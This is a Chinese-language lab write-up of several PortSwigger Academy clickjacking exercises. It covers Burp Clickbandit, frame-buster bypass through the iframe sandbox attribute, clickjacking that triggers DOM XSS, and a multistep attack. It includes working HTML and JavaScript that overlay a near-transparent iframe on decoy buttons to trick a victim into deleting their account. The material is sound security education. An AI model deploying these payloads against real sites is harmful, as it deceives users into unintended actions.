继续portswigger Academy的clickjacking（点击劫持）

1. #### Basic clickjacking with CSRF token protection

   

   最基础的点击劫持，使用bp提供的Burp Clickbandit

   

   将其复制后在需要的网页上复制进控制台并执行

   

   为了避免在选择的过程中删除自己使用的账号，选择Disable click actions或中在代理中开启拦截，之后点击Start，点击需要劫持的位置后点击Finish

   

   可以使用-+改变大小，使用Toggle transparecny 改变原网页内容的透明度，将内容使用Save进行保存，将内容复制进恶意网页中，发送给受害者

   需要注意的是在my-account页面默认会传入使用的作为参数，需要将其删除，否则会导致其他账号访问页面失败

2. #### Clickjacking with form input data prefilled from a URL parameter

   

   与上一题类似，只是在url中加入email参数

   

3. #### Clickjacking with a frame buster script

   

   这一题中网页使用了js脚本以限制页面被嵌入iframe，所以在iframe的sanbox属性中禁用js，因此无法使用clickbanit。在恶意网页中写入iframe，用来显示需要劫持的网页位于上方，且透明，用于诱导的内容位于下方，在需要劫持的地方放入click me内容，可以直接使用https://portswigger.net/web-security/clickjacking#what-is-clickjacking给出的模板加以修改。

   ```
   <head>
   	<style>
   		#target_website {
   			position:relative;
   			width:128px;
   			height:128px;
   			opacity:0.00001;
   			z-index:2;
   			}
   		#decoy_website {
   			position:absolute;
   			width:300px;
   			height:400px;
   			z-index:1;
   			}
   	</style>
   </head>
   ...
   <body>
   	<div id="decoy_website">
   	...decoy web content here...
   	</div>
   	<iframe id="target_website" src="https://vulnerable-website.com">
   	</iframe>
   </body>
   ```

   将目标网页的透明度调高，修改诱饵的位置直到与目标位置一致

   将透明度改回发送给受害者

4. #### Exploiting clickjacking vulnerability to trigger DOM-based XSS

   

   这一题要求诱导受害者点击触发print()，进入题目可以看到有一个提交反馈功能

   

   查看源码可以发现，name会回显到提交后的页面上

   

   测试后发现，这里没有对输入进行过滤

   同时，发现将参数通过get传入可以直接填入表单中

   

   之后的内容与之前一致

5. #### Multistep clickjacking

   

   这一题与之前类似，只是要提供2个诱饵分别点击删除账号和之后弹出的确认，按照官方做法两个诱饵同时显示在页面上即可，这里尝试只显示第一个，点击后改为显示第二个。分别设置两个诱饵，其中第二个不显示，给iframe添加载入事件，当检测到第二次载入时，将第一个诱饵隐藏，并显示第二个诱饵

   ```
   <head>
   	<style>
   		#target_website {
   			position:relative;
   			width:1700px;
   			height:1600px;
   			opacity:0.0000001;
   			z-index:2;
   			}
   		#decoy_website1 {
   			position:absolute;
   			top:535px;
   			left:300px;
   			z-index:1;
   			}
          #decoy_website2 {
   			position:absolute;
   			top:330px;
   			left:460px;
   			z-index:1;
   			display:none;
   			}
   	</style>
   </head>
   <body>
   	<div id="decoy_website1">
   	Click me first
   	</div>
   	<div id="decoy_website2">
   	Click me next
   	</div>
   	<iframe id="target_website" src="https://0a0900130311f82c8119ded2006e00ad.web-security-academy.net/my-account">
   	</iframe>
   <script>
   	let loads=0;
   	document.getElementById('target_website').addEventListener('load', () => {
         loads++;
         if (loads === 2) {
           document.getElementById('decoy_website1').style.display = 'none';
          document.getElementById('decoy_website2').style.display = 'block';
         }
   	});
   </script>
   </body>
   ```

   为了展示，这里透明度设为0.1

   

   

